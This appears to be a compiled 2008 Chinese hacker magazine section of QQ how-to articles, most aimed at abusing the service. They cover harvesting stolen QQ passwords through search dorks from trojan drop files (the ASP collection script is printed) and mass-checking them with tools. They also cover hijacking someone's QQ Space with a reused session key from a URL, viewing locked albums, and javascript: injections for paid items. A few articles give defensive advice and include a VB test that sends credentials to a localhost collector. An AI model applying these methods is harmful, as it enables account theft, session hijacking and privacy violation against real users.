小菜们是不是也想得到免费的钻石或会员呢？来看我的操作吧，打开网页后，一路点击“开始探密”就来到了答题画面，如图 1。画面上的壁纸、光盘、电脑显示器等都是可以点击的，点击一下就会出现相应的问题，选择答案来完成答题，下边是这些问题的正确答案：

- 壁纸：D. 动态验证码
- 光盘：B. 网盾安全软件
- 电脑显示器：A. 招商银行网上个人银行专业版
- 键盘：B. 密码安全控件
- 手机：B. 帐户变动即时通
- 钱包：D. 限额控制
- 词典：C. 五彩优 KEY
- 日历：A. 保护期


图 2


图 5


图 6

下面我们开始刷兑奖码，有无限个兑奖码就能换无限个钻石，方法很简单，每次使用浏览器打开招商银行答题页面得到兑换码后，全部关闭浏览器，然后再打开重新做题就可以了。想多搞些兑换码送人的叉子们就赶快行动起来吧！

### 三剑客助我淘尽靓Q

无敌小龙

使用过阿拉 QQ 大盗的朋友都知道它有项网站收信的功能，如图 1，软件作者编写这样的收信方式一是可以避免邮件被 Hook 软件的发信阻拦，另一方面也可以部分防止第三方用户破解出种马者的邮箱密码。但是这样的收信方式也给我们带来了一个契机，通过查看收信文件 qq.asp 代码，我们知道了这个 ASP 文件是把接收过来的 QQ 账户和密码保存在服务器上同目录下的 QQ.txt 文件中，如图 2。于是就有了下边的故事。


图 1

```
<% 
num=request("num") 
pass=request("pass") 
qqip=request("qqip") 
set fs=server.CreateObject("Scripting.FileSystemObject") 
set file=fs.opentextfile(server.MapPath("密码.txt"),8,true) 
if qqip<>"" then 
file.writeline num+"----"+pass+"       "+qqip 
else 
file.writeline num+"----"+pass 
end if 
file.close 
set file=nothing 
set fs=nothing 
response.write "send OK" 
%>
```

图 2

#### 第一位剑客：搜索引擎

打开搜索引擎，可以选择使用 baidu 或 google，输入“allinurl: qq.txt”或“inurl: qq.txt”，两者都表示在 URL 中要包含 qq.txt 这个文本文件，区别在于前者要求在 URL 中必须含有 qq.txt 文本文件。通过这样的搜索查询，我们可以得到一些存放 QQ 密码的文本文件，如图 3。


图 3

从搜索到的网页中任意打开一个，可以看到有很多 QQ 帐号和密码列表在里面，如图 4。


图 4

#### 第二位剑客：QQ 重复信整理工具

但这个毕竟是别人的 QQ 箱子（这个是术语，就是表示收取 QQ 密码的邮箱），有些 QQ 号别人可能已经把密码修改了。那么如何验证这么多的 QQ 密码是否正确呢？总不可能一个个的去尝试吧。同时里面还有很多重复的信息，如果一个个的清理，那样岂不是要累死人。我给大家推荐一款小工具——QQ 重复信整理工具，把刚才网页中的信息全部复制到记事本中，保存为一个文本文件，单击 QQ 重复信整理工具中的“载入 TXT”按钮，把刚才保存的 QQ 帐户和密码列表文件载入进来，最后单击“整理重复信”按钮，就可以把重复信息去掉了，如图 5。把整理完毕的 QQ 密码列表保存起来，单击“保存”按钮将文件保存为 QQ_pass.txt。


图 5

#### 第三位剑客：GQQ 自动晒号器

现在取出我们的终极武器 GQQ 自动晒号器，它的作用就是模拟 QQ 登录器，并在登录 QQ 服务器的同时显示出正确的密码。选择“晒号”，点击“导入”按钮把我们刚才保存的 qq_pass.txt 文件导入进来，然后单击“开始”按钮，程序就会自动测试密码是否正确，很快我们就可以看到哪些 QQ 的密码是正确的了，如图 6，快去挑选你想要的 QQ 号吧！


图 6

（本文所涉及到的 QQ 重复信整理工具、GQQ 自动晒号器已收录到光盘中）

### 辩论QQ安全登录之策略

文/图 无敌小龙


孙子兵法云“知己知彼，百战不殆”，对于 QQ 木马的防治工作，也要做到在了解 QQ 木马及盗号原理的基础上，有针对性的进行治理，打击，防治！

如今的 QQ 盗号木马可以分为两种类型，一种是键盘记录型，在你打开 QQ 登录窗口时进行键盘记录；另外一种就是内存截取型木马，这种木马更加隐蔽和厉害，它可以绕开 Nprotect 的保护，在内存中寻找出你的 QQ 密码。本文我就针对这两种类型的木马进行详细的解说，并给出有效的防御方法和策略。

#### 一、键盘记录型 QQ 木马

千防万防，不如在问题发生前就遏制住它。QQ 的安全，其实很大程度上就是 QQ 在登录时刹那间的安全。只要密码不输入，盗号木马就记录不到你的帐号和密码信息，此时它们是安全的。我给大家介绍一款工具——QQ 防盗窃登录器，它可以实现安全登录 QQ，并且对键盘记录型木马有很好的防御作用。输入你的 QQ 号码和密码，选择好 QQ.EXE 的安装路径，点击“创建 LNK”按钮，如图 1，就会创建一个 QQ 登录的快捷方式。


在刚刚创建的快捷方式上点击鼠标右键，选择属性，可以看到它其实就是把 QQ 命令行登录的方式做成了一个快捷方式，如图 2，这样在登录时只要双击这个快捷方式就可以直接登录 QQ 了。

因为使用的是命令行登录，也就省略了在 QQ 登录窗口中输入密码的过程，可以有效防止你的密码在登录时被记录，所以对键盘记录型木马是致命的打击。对于键盘记录型木马，还有一些需要补充的知识，腾讯公司针对键盘记录型木马推出了 Nprotect 保护锁，只要这个锁不破，那么其它的程序是无法获得密码输入框中的密码的。检测这个保护锁最有效的方法就是在密码输入框上点击鼠标右键，如果无法弹出快捷菜单，那么就是基本可以确定 Nprotect 保护锁是有效的，否则密码锁就已经被破坏了，此时就不要登录 QQ 了。


#### 二、内存截取型 QQ 木马

使用上面的方法可以有效防范 QQ 登录时的键盘记录型木马，但是对于内存截取型的 QQ 盗号木马就无能为力了。虽然对于内存截取型盗号木马的防御暂时没有特别有效的工具，不过我们可以从侧面进行防御，我推荐两款工具：天网防火墙和小鬼当差。这两款工具虽然不能防止你的密码被记录，但却可以让盗号木马无法把密码发送到对方的邮箱中。说不上是防御，但绝对是个不错的补救措施！

QQ 盗号木马基本上有两种最常见的收信方式：一种是网站收信，一种是邮箱收信。下面就针对这两种方式进行逐个防御！

##### 1、网站收信

网站收信使用到了一个 QQ.ASP 文件，打开阿拉 QQ 大盗（QQ 木马的典型代表）中的 QQ.ASP 文件，代码如下。

```
<%
num=request("num")
pass=request("pass")
qqip=request("qqip")
set fs=server.CreateObject("Scripting.FileSystemObject")
set file=fs.OpenTextFile(server.MapPath("QQ.txt"),8,True)
if qqip <> "" then
file.writeline num+"----"+pass+"----"+qqip
else
file.writeline num+"----"+pass
end if
file.close
set file=nothing
set fs=nothing
response.write "Send OK!"
%>
```

可以看到这个 ASP 文件接收了三个数据参数：一个帐户，一个密码，一个 IP 地址。在接收到这三个参数后就把它们保存到同目录下的 QQ.TXT 文件中。比如，我们在浏览器中输入 http://127.0.0.1/qq.asp?num=5450913&pass=123456，然后来到 http://127.0.0.1/qq.txt，就可以看到记录下来的帐户和密码信息，如图 3。

我们打开 VB 来模拟编写一个网站收信程序，程序界面如图 4 所示。其中使用到了两个控件：webbrowser 控件和 inet 控件，这两个控件默认不在控件栏上，添加方法为找到工程菜单，选择其中的“控件”子菜单，勾选上这两个控件，如图 5。来到代码窗口，输入如下代码：

```
Private Sub Command1_Click()
WebBrowser1.Navigate "http://127.0.0.1/qq.asp?num=5450913&pass=222222"
End Sub
Private Sub Command2_Click()
Inet1.Execute "http://127.0.0.1/qq.asp?num=5450913&pass=222222", "get"
End Sub
```

其中一个表示使用浏览器控件浏览“http://127.0.0.1/qq.asp?num=5450913&pass=222222”这个地址，另外一个表示使用 get 方式提交“num=5450913&pass=222222”数据。生成工程，名称为网站收信，同时打开天网防火墙。运行刚才生成的网站收信程序，单击浏览器，可以看到发信过程马上被拦截了，如图 6。我们单击禁止按钮，可以看到如图 7 所示的界面，浏览器无法正常访问网络了，这样也就避免了盗号木马的网站发信。单击网站发信测试程序中的 inet 方法，结果同样是被防火墙拦截了，这样对方的邮箱就无法收到账户和密码信息，也就从侧面保证了我们 QQ 帐户和密码的安全。


##### 2、邮箱收信

针对邮箱收信的 QQ 木马，我推荐使用灰鸽子工作室编写的小鬼当差。打开小鬼当差，在“消息”界面下勾选启用邮件发送防火墙，这样就可以监听邮件发送程序了，如图 8。


我们使用一款邮件发送程序来进行测试，填写好信息后，单击“发送邮件”按钮，如图 9，可以看到小鬼当差马上捕获了邮件的发送行为，如图 10。来到小鬼当差的“过滤规则”选项，可以看到只要是这里没有被允许的程序，在访问网络时都会被捕获，所以我们只要仅仅给常见的程序放行，那么就可以有效防止盗号木马在盗取密码之后的发信行为，如图 11。


#### 三、安全还在继续

以上论述了一些有效的 QQ 安全登录方式和保护措施，但是安全也是相对的，如果能配合一些常用的杀毒软件就如虎添翼了。我推荐下载使用 360 保险箱，安装完毕后，每次登录 QQ 时它都会首先进行系统漏洞扫描、盗号木马扫描等过程，在确定没有盗号木马后才会弹出 QQ 登录窗口，也就是首先确定 QQ 登录环境是干净的，才会让你登录 QQ。如图 12。以上介绍的方法配合使用的话，一定可以让你的 QQ 安全加倍！（本文所涉及到的 QQ 防盗登录器、邮件发送工具、网站收信程序、天网防火墙、小鬼当差、360 保险箱等，已收录到光盘中）


### 无赖代码打造顽固 QQ 号

添添 yiwang CJ 也疯狂

最近学校基本没课了，整天在寝室里除了看书就是上网，很是无聊。这天在浏览网页时看到了一个卖 QQ 的网站，上面的号码都是挺牛的 5 位和 6 位号，我加了客服的 QQ，聊了一会儿觉得价格还可以，于是就买了个 5 位的 QQ 号，没想到付款后竟然被骗了。100 元大洋就这么没有了，我愤怒到了极点，立刻找来了好友 yiwang 和 CJ。加对方好友后一通弹视频、发语音、发木马，然后我们三个人的 QQ 就被她给拉到黑名单中了。我突然冒出了一个想法，QQ 如何才能拒绝被别人拉黑呢？我到网上一查，发现这个问题已经有人研究过了，并且也有了初步的思路，就是利用 QQ 昵称的编码问题！

通过研究发现，QQ 不同的版本昵称所用的编码也不同，这就造成了漏洞的出现。我们打开编码转换器，如图 1。


图 1

分别按住 ALT+ 下面的数字：38078、30673、31932、30674、3040、52。比如 ALT+38078，全部转换后得到如图 2 所示的字符，其编码是 101：129 000119 000124 000119 000052。当然也不一定只有这些代码可以使用，其它的也可以使用。


图 2

选用 Unicode 格式的字符，把如图 3 所示的这些代码放进去转换，得到了一些编码，这是由于 Unicode 编码在非运行环境下造成的。那么我们如何让它实现 QQ 不能拉黑呢？


图 3

使用 2000 版的 QQ，在用户昵称处加入转换后的 Unicode 字符，昵称前边有 5 个空格，大家要注意一下，如图 4。昵称修改完后，当别人查看你的资料时，这些编码是不会显示出来的，如图 5。


图 4


图 5

我们来测试一下，试试将号码拉入黑名单，拉黑时 QQ 版页面完全卡死，只有以前打开的对话框可以动，并且没有确定或取消对话框提示。重新登录 QQ 后，发现“拒绝拉黑”仍然在原来的组里，丝毫未动，如图 6。不同 QQ 版本在拉黑时所出现的错误情况也不一样，比如 07 版的 QQ 在拉黑时就会出现如图 7、图 8 所示的情况。


图 6


图 7


图 8

如果大家觉得上面的操作过程有些复杂的话，那就使用无赖 QQ 昵称生成器吧，操作很简单，打开生成器，在昵称处输入你想要的名字，点击“生成”按钮就会生成特殊的字符了，再点击“生成并复制”按钮将代码复制到剪贴板，如图 9，最后将其粘贴到 QQ2000 的昵称处并修改资料，这样一个无赖的 QQ 昵称就生成了，快去恶搞一下那些骗子吧。


图 9

（本文所涉及到的 Unicode 编码转换器、QQ2000b 已收录到光盘中）

### 让花匠学徒也能领养五级花

小冰

大家都有自己的 QQ 空间吧，也都希望能把自己的 QQ 空间打扮得漂漂亮亮，因此许多人都领养了自己喜欢的植物，但是如果没有消费的话，它永远不会结果的，而没有结果也就永远不能领到高级的花。对于我们这些囊中羞涩的小菜来说可是没有钱花在 QQ 的打扮上，就更不要说空间了，我们难道就只能种着二级花吗？当然不！下边我就教大家一个方法，让“花匠学徒”也可以领养五级花（虽然在以前的杂志中曾经介绍过如何领取五级花的方法，但那些方法现在已经不能使用了）。


我们进入 QQ 空间来到领养植物的页面，将 `javascript:visitCountCallBack({"visitcount":999,"dayvisit":999,"spacemark":999,"sun":9999,"love":9999,"rain":9999,"nutri":9999,"level":5,"gardener":5})` 这段代码粘贴到 IE 的地址栏中并回车提交。看到这儿，可能会有读者要疑惑了，这不是以前在 X 上曾经提到过的代码吗？确实是的。由于 QQ 空间做了限制，这段代码已经无法领养到人参果了，一领养就会出现“无效访问链接”的提示框，同时植物也会被还原，如图 1。但是这段代码却可以让我们的身份暂时变为“花之神匠”，利用这个暂时的身份我们就可以领养到五级的植物了，点击“领养”按钮就能够成功领养到五级植物，如图 2。保存后刷新一下，虽然我们的称号还是“花匠学徒”，但花却已经变成了五级花了，如图 3。


### 动手脚，瞬间刷出QQ空间上亿的人气

MISHELL[波墨波·班驳客栈]

记得以前在X上介绍过让QQ空间人气翻N番的代码，可是本人地处偏僻，等X到手的时候那些代码已经不能用了，本来以为腾讯不会再出类似的漏洞了，可没想到还是让我给碰上了。这次刷人气代码的利用与上次相比要麻烦了许多，下面就来看我如何瞬间打造出上亿的人气。

首先进入到QQ空间，点击空间右上角的“自定义”按钮，选择“新建模板”-“图文模板”（图1），在“添加标题”和“标题”处输入“@VCP@”，然后在“描述”框中输入以下代码（图2）：

```
@VCP(100)
@VGM(100)
@VGP(100)
@VMP(100)
@VMM(100)
```

以下是上述代码的简单介绍：

```
@VCP(100) 空间人气+100
@VGM(100) 空间被踩+100
@VMP(100) 空间留言+100
@VMM(100) 空间访客+100
```

其中的数值越大，人气就会越多，保存后是不是发现人气变多了，但这还没有完，刷新以后人气数值还会变回到以前的人气数值。接下来我们进行关键的操作，进入空间后点击“自定义”按钮，接着再点击“模板管理”，此时大家先暂时什么都不要做，重新打开你的空间（注意：第一个打开的空间不要关闭掉），在打开的第二个空间的IE工具栏中选择“工具”→“Internet选项”→“安全”→“自定义级别”，在“自定义级别”中找到“活动脚本”，选择“禁用”，然后确定（图3）。重新回到第一次打开的空间，在“模板管理”中找到你刚才新建的“图文模板”，让它显示在空间主页，这时大家不要保存，因为脚本活动被禁用了根本就保存不了，此时再回到第二个空间网页，在IE工具栏中选择“工具”→“Internet选项”→“安全”→“默认级别”后确定，返回到第一个空间网页进行保存。刷新一下看看你的空间，人气是不是没有掉（图4）。注意：人气代码必须是大写的，小写的不可使用。此方法还可以用来刷黑色皮肤。


### QQ盗号从此我不怕

无敌小龙

#### 一、软件登录法

上了这么多年的网，QQ也用了好几年，但是统计一下自己QQ被盗的经历，真是不堪回首！作为一名Hacker爱好者，对于网络安全意识的培养我已经很“刻意”了，尚且自己的QQ号屡屡被盗，对于那些小菜朋友，他们的QQ被盗经历，一定就更加惨不忍睹了。现在，我就为大家介绍几种非常实用的防盗号方法。

最简单的防盗窃方法就是使用一款可信的QQ防盗窃登录软件，我给大家推荐使用QQ防盗号登录器。和网络上那些钓鱼软件的险恶用心不同的是——它绝对不含后门！所以各位菜鸟朋友可以放心的使用这款QQ防盗号软件，不用再担心自己被网络钓鱼了。

运行工具后，输入要登录的QQ号码和密码，然后单击“登录”，就可以安全登录你的QQ了，如图1。

#### 二、命令行登录法

登录完QQ后，我们打开Process Explorer这款工具，在QQ的系统菜单中找到“好友与资料”子菜单，选择其中的“更新好友”，如图2，此时Process Explorer就已经记录了“更新好友”时的QQ登录参数了。

在Process Explorer中选择QQ进程，单击鼠标右键，在弹出的快捷菜单中选择“属性”，查看其登录参数，如图3。在弹出的属性窗口中我们可以看到QQ的登录参数，如图4。其中`D:\QQ\QQ.exe`是QQ的安装路径，`/SessionType:3 /START QQUN:5450913 PWDHASH:ABCABCABCL8vwsWxABCABC== /STAT:40 /EMB_HWND:0 /NOAUTOSCAN`就是登录的命令行参数。

把上面的登录字符串修改合并为`D:\QQ\QQ.exe /START QQUN:5450913 PWDHASH:ABCABCABCL8vwsWxABCABC== /STAT:40 /EMB_HWND:0 /NOAUTOSCAN`（也就是去掉“/SessionType:3”这句，修改合成的），这个就是QQ登录的命令。把这句命令复制到记事本中，最后保存为qq.bat文件，双击这个QQ.bat文件就可以登录你的QQ了。

这样能够躲避通过键盘记录软件或者QQ盗号软件的原因是：一般的QQ密码记录软件需要在键盘输入时才会记录，这个方法就完全屏蔽了键盘输入，所以使用此方法登录QQ，几乎是100%的安全！


我们可以把这个qq.bat文件保存到网络硬盘中，在登录QQ时，就把这个QQ.bat下载回来，然后双击运行。相信这样的方法一定会让QQ盗号从此无法再干扰你！

#### 三、软键盘法

使用软键盘来进行输入可以说是一个比较另类的方法，我们在CMD下输入`osk.exe`来调出系统自带的软键盘，如图5。

新版的QQ已经带了软键盘输入功能，我们可以直接单击QQ登录界面上的小键盘图标，调出QQ自带的软键盘，然后使用软键盘输入密码，对于一般的键盘记录软件来说这可是“致命的打击”了，如图6！


#### 四、360 保险箱

360保险箱是360安全中心推出的一款免费的账号密码安全保护软件，采用主动防御技术，可以阻止盗号木马对网游、聊天等程序的侵入，主要帮助用户保护网游账号、聊天账号、网银账号、炒股账号等，防止由于账号丢失导致的虚拟资产和真实资产受到损失。

在360保险箱的聊天工具栏中选择“腾讯QQ”，第一次运行会弹出“360保险箱软件设置”对话框，如图7。在其中设置好QQ的安装目录，然后单击确定按钮，就可以安全的登录QQ了。另外，我们还可以在自己的电脑上安装360安全卫士，以配合使用，这样保护QQ密码安全的效果就更好了！

经过上面的设置，我们以后每次登录QQ时，360保险箱都会弹出“安全扫描”对话框，只有在进行过安全扫描后才能登录QQ。如果发现了什么漏洞，我们可以及时地进行修补，这样在登录你的QQ时，QQ安全性就大为提高了，如图8。

（文章中涉及到的QQ防盗号登录器、Process Explorer、360保险箱，已经收录在光盘中）

### Q币免费获取小秘笈

chenggong

为了能够得到Q币，小菜们可以说是想尽了各种办法，包括盗窃他人的QQ号或上网账号购买Q币等，但这些方法不仅成功率越来越低而且也是违法的，今天我就给菜鸟们介绍一个非常简单的方法，只要大家花费一点时间就可以轻松得到Q币。

我们登录http://www.pceggs.com/，这是PC蛋蛋的主页，从主页上可以看到点击广告获得金蛋就能够换取很多商品，包括笔记本、数码相机、手机等，来看我是如何快速得到Q币的。

先在PC蛋蛋注册一个用户并登录，如图1，然后点击PC蛋蛋主页下边的“简单体验教材”或“复杂体验教程”右边的“进入体验”，就可以进入到问答页面，答对问题就可获得金蛋。当获得10000金蛋后就可以去兑换得到5个Q币了，由于获得10000金蛋的时间比较长而且难度也有点大，因此就不在我们本次的讨论之列了。


那么我们怎样才能快速获得1Q币呢？点击“推荐好友免费领取1Q币”，就会弹出如图2所示的页面，点击“点击复制地址发送给好友”，系统会提示“地址已经复制到剪贴板！”，将此地址发送给你的好友，当对方通过此地址注册一个PC蛋蛋账号时你就可以免费得到1Q币了。


我们可以利用此地址自己推荐自己来注册，将剪贴板中的地址粘贴到浏览器中回车，就可以打开一个新的网页，在打开的网页中点“注册PC蛋蛋”，就会弹出如图3所示的注册PC蛋蛋账号的网页，填写邮箱和密码等信息并且答对“注册校验”中的试题后，点“确认提交”就可以注册成功了。

接下来分别点图4中的邮箱、自定义首页和“马上体验”，建议大家体验邮箱和趣味问答，这样就可以得到400金蛋。可能会有小菜要问，为什么要体验上边的这些东西呢？这是因为只有体验上面的项目并且至少得到300个金蛋才能点击图4中的“立即拿1Q币”。最后我们再填写自己的真实信息提交，一般等待1到2天后就可以领到1Q币了。


需要注意的是，提交时填写的信息要和你的QQ注册信息一样，我们到腾讯去查看，1Q币已经到手了，如图5。如果你想得到更多的Q币，可以继续点广告或答题，获得更多的金蛋来兑换Q币。也可以使用同样的方法继续注册PC蛋蛋账号，由于一个QQ号只能有一次赠送的机会，因此必须再更换一个新的QQ号才能得到赠送的Q币。为了防止答题或点广告时更改你的主页或记住你的信息，系统中最好安装影子系统或冰点还原等软件。


图 5

### 免费装扮漂亮可爱的QQ空间

无敌小龙

QQ黄钻可以有足够的权限去选择一些装扮自己空间的饰品，这可难为了很多小菜，谁都想把自己的“门户”打扮得漂漂亮亮，但是如果是要花费一些money的话那可就不大舍得了，所以本文我就教大家如何使用免费的方法来打扮自己QQ空间。

这是我的QQ空间界面，可以看到就是默认的模板和界面，如图1。现在，点击“自定义”按钮，会弹出“自定义”窗口，只有打开了自定义窗口，在之后输入代码后才能保存方案，如图2。

我们在浏览器窗口中输入代码`javascript:window.top.space_addItem(1,26498,80,80,0,0,93);`，可以看到QQ空间变靓了，变成了黑色的星星背景，如图3。这里就是使用脚本代码来实现了对QQ空间的装扮，刚才通过代码已经修改了空间的配置，如果要让这个配置保留下来，只要在自定义窗口中点击保存按钮，这个背景就会被保存下来了。

除此之外，还有一些免费的黑色皮肤，其代码如下：

```
javascript:window.top.space_addItem(1,26498,0,22,0,0,93);
javascript:window.top.space_addItem(1,26497,80,80,0,0,93);
javascript:window.top.space_addItem(1,26341,0,80,0,0,605);
```

上面修改了QQ背景，现在来修改QQ空间的导航代码，我们来使用一款竖着的黑色超炫风格代码，代码如下：`javascript:window.top.space_addItem(13,1,100,80,0,0,94);`。在IE中输入后，马上可以看到修改后的漂亮的QQ空间导航条了，如图4。现在来修改QQ默认的播放器，因为QQ默认的播放器实在是太丑陋了。这里给大家推荐一款不错的播放器代码，代码如下：`javascript:window.top.space_addItem(6,1228,0,0,200,200,0);`。在IE地址栏中输入代码后，然后点击自定义窗口中的“保存”按钮（事先要打开自定义窗口），就可以把设置保存下来了，如图5。

经过上面的修改，我们的QQ空间就会变得很漂亮了，现在再来添加一些QQ空间的挂件，代码如下：

```
情人节: javascript:window.top.space_addItem(16,23792,330,80,600,600,0);
盟迎新岁: javascript:window.top.space_addItem(16,23728,350,80,500,600,0);
love_day: javascript:window.top.space_addItem(16,23726,350,80,500,600,0);
占卜爱情: javascript:window.top.space_addItem(16,23730,350,80,500,600,0);
五彩爱恋: javascript:window.top.space_addItem(16,23733,350,80,500,600,0);
迎新春: javascript:window.top.space_addItem(16,23735,350,80,500,600,0);
```


图 1

图 2

图 3


我给我的QQ空间选择了两个不错的QQ挂件代码，代码如下：

```
两只小猴子: javascript:window.top.space_addItem(16,23228,350,80,600,600,0);
可动花朵: javascript:window.top.space_addItem(16,22125,350,80,600,600,0);
```

按照同样的方法，首先打开“自定义”窗口，然后在IE输入栏中输入上面的代码，最后点击自定义窗口中的保存按钮，就可以把修改方案保存下来了。可以看到多了两只猴子和放鞭炮的挂件，是不是喜庆了很多，如图6。我们还可以添加花匠的代码，推荐一款顶级花之神匠代码（带7个人参果花匠代码），在IE输入栏中输入代码`javascript:window.top.space_addItem(7,20981,0,0,0,1,0);`，然后保存就可以看到效果了，如图7。

现在我们的空间看起来是不是漂亮了很多？还在等什么，快去装扮你的空间吧！


图 4

图 5

图 6

图 7

### 利用QQ飞车地址提权，获得QQ多种权限

YouXi 结S

我们是不是为了能够进入某人的QQ空间而想尽了各种各样的办法，但最终却都是以失败而告终，不过没关系，这次我就教大家如何进入别人的QQ空间以及查看对方QQ空间的其他信息。

这里我们只需要对方的QQ飞车的地址，比如我QQ上的一个弟兄，今天就拿他来练手吧。我让他把QQ飞车的地址发了过来，地址是“http://speed.qq.com/?clientuin=798799117&clientkey=29DA315B5C42D3C8693E8EF1476E2B63485405C49EB0BA32CDCB4A5CF863BDA3&ADUIN=798799117&ADSESSION=1218334702&ADTAG=CLIENT.QQ.1811_MyTip.0”，如图1。


图 1

然后我们到http://www.haikeji.cn/www//下载“权限漏洞不传代码”，如图2，从中找到QQ空间的地址“http://imgcache.qq.com/qzone/jump.html#zzpanelkey=权限代码&zzpanelluin=QQ号&url=http%3A%2F%2Fuser.qzone.qq.com%2FQQ号”，如图3，在权限代码那一项填上QQ飞车“key=”后面的代码，在QQ号那一项填上我们需要进入QQ空间的那个QQ号码。注意，代码要从“key=”一直到“&”前结束。例如我们上面找到的QQ飞车的地址的key是“29DA315B5C42D3C8693E8EF1476E2B63485405C49EB0BA32CDCB4A5CF863BDA3”，QQ号码是798799117，那么他的QQ空间的地址就变成了“http://imgcache.qq.com/qzone/jump.html#zzpanelkey=29DA315B5C42D3C8693E8EF1476E2B63485405C49EB0BA32CDCB4A5CF863BDA3&zzpanelluin=798799117&url=http%3A%2F%2Fuser.qzone.qq.com%2F798799117”，这样。


我们先使用平常浏览别人QQ空间的方法来浏览对方的空间，如图4。大家看我图中标出的，此时我们是没有权限的，我们不能修改他的东西。我们现在把刚才修改过的地址粘贴到IE的地址栏上，如图5，提交后，我们转到了空间的地址上，但这回我们就可以以这个空间的管理员权限来管理这个空间了，如图6，至于接下来的操作，我就不必多说了，大家自由去发挥吧！


图 4


图 5


图 6


图 2


图 3


图 4

### 鲜为人知的免费黄钻活动

红莲骑士


图 1

最近网上流传着许多QQ刷钻技巧，但其中有很多都是骗人的，不是发木马，就是骗流量，即使有一些免费的活动可以获得钻石但也只限那么几天，下面我就介绍一个QQ官方的免费黄钻活动，不仅仅是几天哦！我们必须先要有一个QQ空间，其次流量要稍微大些（至少每天要有3个人的访问量），进入QQ空间，选择“自定义”（图1），然后打开“模块管理”（图2），我们会发现有一个“广告模块”（图3）。

我先介绍一下，在空间中放广告可以获得影响力积分，只要每天访问量在3次或3次以上，并且选择大模式，每天可以增加2分的影响力积分（小模式每天只增加1分），如果已经开通黄钻的话还将获得双倍的积分。影响力积分还可以通过参加品牌空间活动来获得，比如参加brand.qq.com品牌空间的活动等。参与品牌空间每个活动


图 3


图 2


图 4


图 5


图 6


## 2008 合订本下卷

## QQ宝典

动可增加1分。此项目每个QQ号码每天增加的上限为5分。同时还可以把“广告模块”设置在最底层（图4），然后再用其它模块遮住，这样一来既不影响空间的美观同时也增加了积分。进入如图1所示的信息空间，在其左边找到影响力积分就可以看到你现在的分数了（图5）。

点击查看详情进入兑换页面，选择“黄钻贵族 30天280分（30天）每天限量96个”来进行兑换，其余的没有用（小编注：每天限量96个，因此大家除了需要攒够积分外，还要一定的运气哟）。

我计算了一下，兑换以后，每天最多可以积9分（因为黄钻贵族积分加倍），30天就是270分，也就是说当你有了280分后，每多增加10分，就可以连续多包一个月的黄钻。普通情况下每天是7分，大家可以算算包1年黄钻预先需要多少积分，然后去积累积分。大家不要认为这样很麻烦，其实只要宣传的好，积分还是很好得的，看看我的得分是不是很多啊（图6），心动了吧，那就快去行动吧！

### 找回QQ好友有绝招

雪克斯de眼泪

很多小菜会因为自己的不小心或是其它原因而误把自己好友的QQ号给删除，等联系的时候才发现找不到他们的QQ了，这可怎么办呢？别担心，下面我就教大家如何找回被误删除的QQ好友。

#### 第一招：利用QQ邮箱找回好友

首先登录QQ，打开我们的QQ邮箱，选中左边的“写信”或者“联系人”（图1），是不是看到了有个“联系人”的选项（图2），里面罗列出了你在QQ中的所有分组？那还愣着干嘛？快点开看看里边是什么吧，找找看有没有需要找回的QQ好友（图3）。需要注意的是：联系人里面都是我们分组加入的好友，而QQ本身默认的“我的好友”中的所有QQ号码是不会被添加到里面的（图4）。我们可以点开上面的“全部联系人”，这里则是把各个分组里的好友全部集中在了一起。这时候我们会发现，里面所显示的都是过去的分组的好友，但却没有现在的分组的好友？我们点击下面的“同步QQ好友”，这样就会将我们现在的分组信息添加到联系人中了。如果我们经常更新同步QQ好友的话，那么在QQ中误删除的好友都可以在这里找到，所以也希望各位能够经常同步QQ好友，以免好友被误删除后而无法找回。

#### 第二招：利用QQ秀找回好友

打开QQ秀的登录页面“http://qqshow.qq.com/”进行登录（图5），成功登录后点击“我的QQ秀”里边的“我的好友”选项（图6），是不是出现了好友的QQ秀列表，并且详细的显示出了QQ好友的昵称以及QQ号码呢（图7），快去找回那些丢失的QQ好友吧！

#### 第三招：利用自助恢复找回好友

我们打开QQ的登录界面，点击“设置”按钮（图8），选择“其他选项”下的“申请密码保护”来到QQ帐号的服务中（图9），在页面中有个“自助恢复QQ好友”功能（图10），我们点击“立即恢复”，此时会打开QQ好友恢复系统的页面，我们输入想要恢复好友的QQ号码也就是自己的QQ号了（图11），成功登录后系统会让我们选择需要恢复的范围（图12）：

> 请选择恢复范围
> 在最近三个月内您的QQ累计被删除了 1 个好友，请选择一个时间范围提交恢复：
> （温馨提示：如果您无法确定好友被删的日期，建议您选择最长时间范围提交恢复。）
> ○ 可恢复三个月内被删除的好友，共 1 人
> ○ 仅恢复两个月内被删除的好友，共 1 人
> ○ 仅恢复一个月内被删除的好友，共 0 人
> [提交]

这里提供了三个选项供我们选择，大家可以根据自己的需要进行选择，选择好后点击“提交”按钮就行了，这个是需要通过审核的（图13），这种方法也是比较好的，对于找回近三个月内丢失的QQ好友效果非常好。


### 超级无敌破解QQ加密空间查看相册

倮 犇 ♂☆ (1yback8)

近日听说好友 LM 跑到山西旅游去了，旅游的照片都传到了 QQ 空间上，我就迫不及待的登录他的空间去浏览靓照，可是打开网页却傻眼了，还要密码，如图1。看似简单，但是答案却不简单，他也不告诉我，没办法，只有想别的办法了。

以前也知道怎么破解 QQ 加密相册的密码，但是最起码得先进入对方的 QQ 空间才行，这可好，连空间都进不去了，没办法我就到乐网（www.56.com）去看视频了，忽然看到了“制作动感相册”这一项，如图2，我就抱着试试看的态度试验了一下，直接进入“制作动感相册”，看到了“添加图片”这一项，直接选择“导入网易，QQ 相册”，然后填入对方的 QQ 号码，点击“开始导入”，如图3。不一会儿，照片就出来了，如图4。哈哈，这个方法很简单吧，虽然没有进入对方的 QQ 空间，但是他的照片还是被我偷窥到了，暴力破解只能破解较弱的密码，对于强悍的密码就不行了。但是利用我乐网站“制作动感相册”的这种方法却是很无敌，再厉害的密码也挡不住我们！


### Q币，刷！刷！刷！

刘潇洋 & 黄李梅

对于第 8 期杂志“Q币免费获取小秘籍”一文中所介绍的方法，我很久以前就试用过了，不过一个 QQ 号只能赠送一次 Q 币，而且还得 1-2 天后才能到帐，实在是令人不爽，今天我就为各位小菜介绍一种新的刷 QQ 币的方法。

大家都知道 QQ 有个“搜搜问问”业务吧，平时小菜们把它点亮后可能就不会再去管它了，而我要介绍的就是如何利用刷问问的积分来刷 Q 币，如图1。积分可以兑换 Q 币、数码产品、公仔等许多东西，要是单纯的开小号来刷分，一般中午刷完，下午问问就会来信说你违背了原则，被封三天。第一次封三天，第二次封七天，而且积分、等级、经验都将变为零。那有没有刷分快，又不会被封的方法呢？当然有了，大家继续往下看。

